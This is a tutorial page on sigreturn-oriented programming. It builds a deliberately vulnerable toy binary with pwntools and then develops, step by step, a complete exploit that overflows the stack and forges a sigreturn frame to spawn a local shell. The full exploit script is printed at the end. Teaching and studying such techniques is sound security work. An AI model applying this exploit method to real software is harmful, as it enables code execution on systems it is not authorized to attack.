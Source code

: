 # Using SROP

## Source

As with the [syscalls](../../syscalls/exploitation-with-syscalls.md#the-source), I made the binary using the pwntools ELF features:

```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

elf = ELF.from_assembly(
    '''
        mov rdi, 0;
        mov rsi, rsp;
        sub rsi, 8;
        mov rdx, 500;
        syscall;
        ret;
        
        pop rax;
        ret;
    ''', vma=0x41000
)
elf.save('vuln')
```

It's quite simple - a `read` syscall, followed by a `pop rax; ret` gadget. You can't control RDI/RSI/RDX, which you need to pop a shell, so you'll have to use SROP.

Once again, I added `/bin/sh` to the binary:

```bash
echo -en "/bin/bash\x00" >> vuln
```

## Exploitation

First let's plonk down the available gadgets and their location, as well as the location of `/bin/sh`.

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015
```

From here, I suggest you try the payload yourself. The padding \(as you can see in the assembly\) is `8` bytes until RIP, then you'll need to trigger a `sigreturn`, followed by the values of the registers.



The triggering of a `sigreturn` is easy - sigreturn is syscall `0xf` \(`15`\), so we just pop that into RAX and call `syscall`:

```python
payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
```

Now the syscall looks at the location of RSP for the register values; we'll have to fake them. They have to be in a specific order, but luckily for us pwntools has a cool feature called a `SigreturnFrame()` that handles the order for us.

```text
frame = SigreturnFrame()
```

Now we just need to decide what the register values should be. We want to trigger an `execve()` syscall, so we'll set the registers to the values we need for that:

```python
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
```

However, in order to trigger this we **also have to control RIP** and point it back at the `syscall` gadget, so the execve actually executes:

```python
frame.rip = SYSCALL_RET
```

We then append it to the payload and send.

```python
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

![Nailed it!](../../../../.gitbook/assets/image%20%2835%29.png)

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```



